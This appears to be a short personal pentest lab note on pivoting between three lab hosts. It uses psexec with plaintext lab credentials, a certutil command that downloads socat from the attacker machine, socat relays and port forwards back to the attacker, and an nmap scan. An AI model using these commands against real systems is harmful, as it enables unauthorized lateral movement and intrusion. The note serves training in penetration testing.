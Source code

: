 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

Kali => Punisher => Spiderman

| Kali | Punisher | Spiderman | 
| --- | --- | --- |
| 192.168.111.133 | 192.168.111.138 / 10.10.10.129 | 10.10.10.128

```bash - kali
psexec.py marvel.local/fcastle:Password1@192.168.111.138
```

```command prompt - target
cd C:\Users\fcastle\Documents
```

```command prompt - target
certutil -urlcache -split -f http://192.168.111.133/socatx64.exe
```

```command prompt - target
socatx64.exe tcp-l:8000 tcp:192.168.111.133:443 &
```


#### Local Port Forwarding
Say we wish to target local port 631
```bash - target
socat tcp-listen:9090,fork tcp:127.0.0.1:631 &
```

```bash - kali
nmap -sVC -p 9090 $TARGET
```


Last updated: `$= dv.current().file.mtime.toFormat("MMMM dd, yyyy 'at' HH:mm")`
